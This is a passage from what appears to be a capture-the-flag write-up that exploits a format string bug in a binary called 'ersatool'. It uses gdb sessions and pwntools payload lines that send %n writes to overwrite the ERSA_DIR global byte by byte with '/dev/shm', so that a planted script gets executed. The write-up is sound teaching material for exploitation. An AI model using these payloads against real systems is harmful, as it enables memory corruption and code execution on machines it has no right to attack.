     print->CN=$
    

If I attach `gdb` again (`sudo gdb -p $(pidof ersatool)`), I can see that the
value of `ERSA_DIR` has changed (printed both as hex word and a string):

    
    
    gdb-peda$ x/xg &ERSA_DIR 
    0x5640f813e0f0 <ERSA_DIR>:      0x7361652f00000014
    gdb-peda$ x/s &ERSA_DIR
    0x5640f813e0f0 <ERSA_DIR>:      "\024"
    

The low 32-bit word has been overwritten with the value 0x14, which is 20, the
number of bytes written before it reached the `%n` specifier. If I want a `/`,
I need 47 instead of 20, which I can just change in the padding:

    
    
    p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))
    

Running again and then attaching `gdb`:

    
    
    gdb-peda$ x/s &ERSA_DIR
    0x55a4ded870f0 <ERSA_DIR>:      "/"
    gdb-peda$ x/xg &ERSA_DIR 
    0x55a4ded870f0 <ERSA_DIR>:      0x7361652f0000002f
    

#### Write Path

Having shown I can write memory, I want to overwrite `ERSA_DIR` with
`/dev/shm`, so I can drop my script in there and have it run.

Format | Value  
---|---  
String | /dev/shm  
Hex | 0x2f6465762f73686d  
Little Endian | 0x6d68732f7665642f  
Integer | 7883677795399066671  
  
I just need to write 7,883,677,795,399,066,671 bytes before the `%n`. Clearly
that isn’t going to work. But I can write it one byte at a time. In many
format string attacks, this is done by alternating `%p` (or `%x`) and `%n`
specifiers in the same string, with multiple addresses on in the payload to
reference. But here, since I can take multiple hits at the format string vuln
in the same process memory, I’ll just send a print request for each character
I want to write.

I could do something like:

    
    
    p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))
    p.sendline("%16$100p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+1))
    p.sendline("%16$101p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+2))
    p.sendline("%16$118p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+3))
    p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+4))
    p.sendline("%16$115p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+5))
    p.sendline("%16$104p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+6))
    p.sendline("%16$109p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr+7))
    